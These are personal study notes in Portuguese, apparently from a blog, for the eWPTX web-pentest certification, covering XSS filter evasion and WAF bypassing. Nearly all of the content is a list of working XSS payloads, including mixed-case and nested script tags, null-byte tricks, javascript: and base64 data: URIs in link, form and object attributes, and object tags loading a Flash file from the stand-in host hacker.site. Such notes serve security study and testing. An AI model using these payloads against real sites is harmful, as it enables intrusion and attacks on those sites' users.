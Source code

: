 ```yaml
---
title: "XSS - Filter Evasion and WAF Bypassing"
classes: wide
header:
  teaser: /assets/images/XSS-Evasion/00.jpg
  overlay_image: /assets/images/XSS-Evasion/00.jpg
  overlay_filter: 0.5
ribbon: DarkSlateGray
excerpt: "Anotações e resumos dos meus estudos pessoais para a eWPTX"
description: "Anotações e resumos dos meus estudos pessoais para a eWPTX"
categories:
  - Notes
tags:
  - Notes
  - XSS
  - Evasion
  - WAF Bypassing
  - eWPTX
toc: true
toc_sticky: true
toc_label: "Sumário"
toc_icon: "terminal"
---
```


Os dois principais cheat sheet para XSS:

https://html5sec.org/
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

# Bypassing Blacklisting Filters

## Injecting Script Code

**Bypass no bloqueio da tag \<script>**

```html
<ScRiPt>alert(1)</ScRiPt>                  // Upper e Lower case
<ScRiPt>alert(1)                           // Upper e Lower sem fechar a tag
<script/random>alert(1);</script>          // Random string depois da tag name
<script                                    // Newline depois da tag name
>alert(1);</script>
<scr<script>ipt>alert(1)</scr<script>ipt>  // tags alinhadas
<scr\x00ipt>alert(1)</scr\x00ipt>          // NULL byte
```

**Bypass no bloqueio da tag \<script> usando atributos do HTML**

```html
<a href="javascript:alert(1)">show</a>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">show</a>
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data="javascript:alert(1)">
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<object data="//hacker.site/xss.swf">
<object data="//hacker.site/xss.swf" allowscriptaccess=always>
```
